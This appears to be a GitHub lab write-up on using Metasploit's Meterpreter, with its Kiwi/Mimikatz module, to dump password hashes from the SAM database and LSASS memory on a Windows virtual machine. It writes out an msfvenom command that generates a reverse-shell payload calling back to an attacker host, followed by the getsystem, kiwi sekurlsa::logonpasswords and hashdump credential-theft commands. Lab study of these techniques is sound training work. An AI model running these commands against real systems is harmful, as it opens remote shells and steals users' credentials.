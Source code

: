 # Use Meterpreter To Dump Password Hashes Stored In The SAM Database And LSASS
In cybersecurity, understanding how attackers extract credentials is key to effective defense. Meterpreter, a post-exploitation tool, enables attackers to access compromised Windows systems and extract sensitive data like password hashes. Through Meterpreter, tools like Mimikatz can dump password hashes from LSASS memory and the SAM database

## References
- [Meterpreter Basics](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/#hashdump)
- [Mimikatz](https://www.offsec.com/metasploit-unleashed/mimikatz/)

## Tasks
- Launch Metasploit and use an appropriate exploit to gain a Meterpreter session on the Windows 7 virtual machine
- Once you have a Meterpreter session, use the "getsystem" command to escalate privileges to SYSTEM level
- Use the "getuid" command to display the current user's privileges
- Use Mimikatz commands within the Meterpreter session to extract usernames and password hashes from the LSASS memory
- Use the "hashdump" command in Meterpreter to dump password hashes from the SAM database


## Practical Approach
1. Since Kiwi is an integration of Mimikatz into Metasploit by providing functionality directly in a Meterpreter session, it requires a 64-bit Meterpreter session to avoid errors such as `ERROR kuhl_m_sekurlsa_acquireLSA ; mimikatz x86 cannot access x64 process`
2. If the reverse shell in the previous Meterpreter task is 32-bit, recreate a new 64-bit reverse shell using the command:
   ```
   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Kali_Linux_IP_address> LPORT=4444 -f exe -o /home/kali/Desktop/reverseshell.exe
   ```
3. Move the reverse shell from the Desktop directory into the web server directory (/var/www/html)
4. Download the reverse shell in the Windows 10 VM and run it as an administrator
5. Once a Meterpreter session is available in Kali Linux, run `getsystem` to escalate privileges
6. Confirm you are running as a SYSTEM user using `getuid`. You should see something like `Server username: NT AUTHORITY\SYSTEM`
7. To load Mimikatz in Meterpreter session, use `load kiwi`
8. Use `kiwi_cmd sekurlsa::logonpasswords` to extract credentials from LSASS memory. This will dump usernames and password hashes
9. To dump password hashes from the SAM database, use `hashdump`

Screenshot of how Kiwi is used in a Meterpreter session:
![image](https://github.com/user-attachments/assets/3fbaa79a-b163-43d5-bc50-7bb025b4c288)

Screenshot of how hashdump is used in a Meterpreter session:
![image](https://github.com/user-attachments/assets/5ded7cc0-7b98-4ad2-8e50-a35ff5841958)
